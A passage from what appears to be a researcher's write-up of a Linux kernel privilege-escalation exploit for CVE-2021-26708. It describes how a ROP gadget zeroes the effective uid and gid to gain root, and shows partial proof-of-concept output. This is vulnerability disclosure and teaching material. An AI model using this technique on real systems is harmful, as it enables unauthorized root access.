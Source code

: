 <center><img src="/img/cannon_weapon.jpg" width="85%"></center>
<br/>

The `callback` function pointer stores the address of a single ROP gadget. The `RDI` register stores the first argument of the `callback` function, which is the address of `ubuf_info` itself. So `RDI + 8` points to `ubuf_info.desc`. The gadget moves `ubuf_info.desc` to `RDX`. Now `RDX` contains the address of the effective user ID and group ID, minus one byte. That byte is important: when the gadget writes qword with **1** from `RSI` to the memory pointed to by `RDX`, the effective `uid` and `gid` are overwritten by zeros.

Then the same procedure is repeated for `uid and gid`. Privileges are escalated to `root`. Game over.

Exploit output that displays the whole procedure:

```
[a13x@localhost ~]$ ./vsock_pwn

=================================================
==== CVE-2021-26708 PoC exploit by a13xp0p0v ====
=================================================

[+] begin as: uid=1000, euid=1000
[+] we have 2 CPUs for racing
[+] getting ready...
[+] remove old files for ftok()
[+] spray_data at 0x7f0d9111d000
[+] userfaultfd #1 is configured: start 0x7f0d91121000, len 0x1000
[+] fault_handler for uffd 38 is ready

[+] stage I: collect good msg_msg locations
[+] go racing, show wins: 
	save msg_msg ffff9125c25a4d00 in msq 11 in slot 0
```

[0]: https://nvd.nist.gov/vuln/detail/CVE-2021-26708
[1]: http://zer0con.org/#speaker-section
[2]: https://youtu.be/EC8PFOYOUgU
[3]: https://elixir.bootlin.com/linux/v5.10/source/net/vmw_vsock/af_vsock.c
[4]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=c0cfa2d8a788fcf45df5bf4070ab2474c88d543a
[5]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=6a2c0962105ae8ceba182c4f616e0e41d7755591
[6]: https://github.com/google/syzkaller/
[7]: https://elixir.bootlin.com/linux/v5.10/source/net/vmw_vsock/virtio_transport_common.c#L490
[8]: https://arxiv.org/abs/2009.01694
[9]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=c518adafa39f37858697ac9309c6cf1805581446
[10]: https://a13xp0p0v.github.io/2017/03/24/CVE-2017-2636.html
[11]: https://cve.mitre.org/cve/request_id.html
[12]: https://seclists.org/oss-sec/2021/q1/107
[13]: https://en.wikipedia.org/wiki/Heap_spraying
[14]: https://googleprojectzero.blogspot.com/2019/11/bad-binder-android-in-wild-exploit.html
[15]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=09fc68dc66f7597bdc8898c991609a48f061bed5
[16]: https://googleprojectzero.blogspot.com/2020/06/a-survey-of-recent-ios-kernel-exploits.html
[17]: https://man7.org/linux/man-pages/man2/msgsnd.2.html
[18]: https://a13xp0p0v.github.io/2020/02/15/CVE-2019-18683.html
[19]: https://duasynt.com/blog/linux-kernel-heap-spray
[20]: https://man7.org/linux/man-pages/man2/msgrcv.2.html
[21]: https://a13xp0p0v.github.io/2017/03/24/CVE-2017-2636.html
[22]: https://www.hermitagemuseum.org/wps/portal/hermitage?lng=en
[23]: https://github.com/a13xp0p0v/linux-kernel-defence-map
[24]: https://community.arm.com/developer/ip-products/processors/b/processors-ip-blog/posts/enhancing-memory-safety
[25]: https://grsecurity.net/
[26]: https://a13xp0p0v.github.io/2020/11/30/slab-quarantine.html
[27]: https://github.com/a13xp0p0v/kconfig-hardened-check#questions-and-answers